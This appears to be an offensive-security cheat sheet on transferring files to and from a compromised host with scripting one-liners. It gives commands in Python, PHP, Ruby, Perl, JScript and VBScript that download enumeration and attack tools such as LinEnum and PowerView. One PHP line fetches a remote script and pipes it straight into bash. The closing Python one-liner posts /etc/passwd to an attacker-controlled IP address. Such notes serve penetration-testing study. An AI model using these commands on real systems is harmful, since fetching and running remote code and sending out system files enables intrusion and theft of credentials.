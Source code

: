 # Transferring Files with Code
## Python
**Python 2 - Download**
```bash
$ python2.7 -c 'import urllib;urllib.urlretrieve ("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh")'
```

**Python 3 - Download**
```bash
$ python3 -c 'import urllib.request;urllib.request.urlretrieve("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh")'
```

## PHP
**PHP Download with File_get_contents()**
```bash
$ php -r '$file = file_get_contents("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"); file_put_contents("LinEnum.sh",$file);'
```

**PHP Download with Fopen()**
```bash
$ php -r 'const BUFFER = 1024; $fremote = 
fopen("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "rb"); $flocal = fopen("LinEnum.sh", "wb"); while ($buffer = fread($fremote, BUFFER)) { fwrite($flocal, $buffer); } fclose($flocal); fclose($fremote);'
```

**PHP Download a File and Pipe it to Bash**
```bash
$ php -r '$lines = @file("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"); foreach ($lines as $line_num => $line) { echo $line; }' | bash
```

`Note: The URL can be used as a filename with the @file function if the fopen wrappers have been enabled.`

## Other Languages
**Ruby - Download a File**
```bash
$ ruby -e 'require "net/http"; File.write("LinEnum.sh", Net::HTTP.get(URI.parse("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh")))'
```

**Perl - Download a File**
```pl
$ perl -e 'use LWP::Simple; getstore("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh");'
```

### JavaScript
```js
var WinHttpReq = new ActiveXObject("WinHttp.WinHttpRequest.5.1");
WinHttpReq.Open("GET", WScript.Arguments(0), /*async=*/false);
WinHttpReq.Send();
BinStream = new ActiveXObject("ADODB.Stream");
BinStream.Type = 1;
BinStream.Open();
BinStream.Write(WinHttpReq.ResponseBody);
BinStream.SaveToFile(WScript.Arguments(1));
```

**Download a File Using JavaScript and cscript.exe**
```powershell
> cscript.exe /nologo wget.js https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 PowerView.ps1
```

### VBScript
```vb
dim xHttp: Set xHttp = createobject("Microsoft.XMLHTTP")
dim bStrm: Set bStrm = createobject("Adodb.Stream")
xHttp.Open "GET", WScript.Arguments.Item(0), False
xHttp.Send

with bStrm
    .type = 1
    .open
    .write xHttp.responseBody
    .savetofile WScript.Arguments.Item(1), 2
end with
```

**Download a File Using VBScript and cscript.exe**
```powershell
> cscript.exe /nologo wget.vbs https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 PowerView2.ps1
```

## Upload Operations using Python3
**Starting the Python uploadserver Module**
```bash
$ python3 -m uploadserver 

File upload available at /upload
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

**Uploading a File Using a Python One-liner**
```bash
$ python3 -c 'import requests;requests.post("http://192.168.49.128:8000/upload",files={"files":open("/etc/passwd","rb")})'
```

